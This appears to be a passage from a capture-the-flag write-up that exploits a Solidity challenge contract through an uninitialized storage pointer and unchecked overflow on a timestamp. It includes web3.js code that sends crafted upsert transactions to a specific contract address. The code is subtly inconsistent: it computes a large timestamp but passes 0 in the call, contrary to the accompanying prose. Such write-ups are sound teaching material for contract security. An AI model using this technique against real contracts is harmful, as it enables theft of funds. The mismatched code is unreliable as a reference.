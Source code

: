 ```solidity
// Will overwrite storage slot 0 : queue.length
contribution.amount = msg.value;
// Will overwrite storage slot 1 : head
contribution.unlockTimestamp = timestamp;
```

Since `timestamp` will overwrite the `head` storage variable we must think ahead to how we will withdraw later on... To withdraw each donation we must set `head` to 0 and give the appropriate `index` to `withdraw`, but adding a donation by relying on the uninitialized storage pointer will set `head` to `timestamp` which is far greater than 0.

We can rely on the fact that `queue[queue.length - 1].unlockTimestamp + 1 days` is another example of unchecked arithmetic. If we initially give a timestamp value close to `2^256 - 1` the next contribution will execute that line again and overflow... If we find the right values to overflow and loop back to 0 we (almost) have a way of reseting `head` to the value that allows us to move forward with a withdrawal.

So first, we send a contribution with an `index` > 1 to force an append, a `msg.value` of 1 to avoid interfering with the actual `queue.length` and a `timestamp` of `2^256 - 1 days` to setup an overflow on the contribution that we will do after that one : 

```js
const challengeContract = "0x058de915E68b8beef52dC9463fef1cD97a51717b";

// 2 ^ 256 - 1 days : next contribution will overflow on queue[queue.length - 1].unlockTimestamp + 1 days
const timestamp = web3.utils
  .toBN("0x10000000000000000000000000000000000000000000000000000000000000000")
  .sub(new web3.utils.BN("86400"));

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "upsert",
    type: "function",
    inputs: [
      { type: "uint256", name: "index" },
      { type: "uint256", name: "timestamp" },
    ],
  },
  [2, 0] // index must be > 1 to append a new contribution
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
  value: 1, // don't change initial queue.length
});
```

We can now reset the `head` variable through an overflow by sending a new contribution with an `index` of 3 to force an append, a `msg.value` of 2 to avoid interfering with `queue.length` once again and a `timestamp` of 0. Internally `require(timestamp >= queue[queue.length - 1].unlockTimestamp + 1 days);` will be true as `queue[queue.length - 1].unlockTimestamp` is `2^256 - 1 days`, if we add 1 days to that value it's obviously 2^256 which cannot fit on a 256 bit value, overflows and loops back to the value 0, thus, reseting `head` to 0 by means of the uninitialized storage pointer.
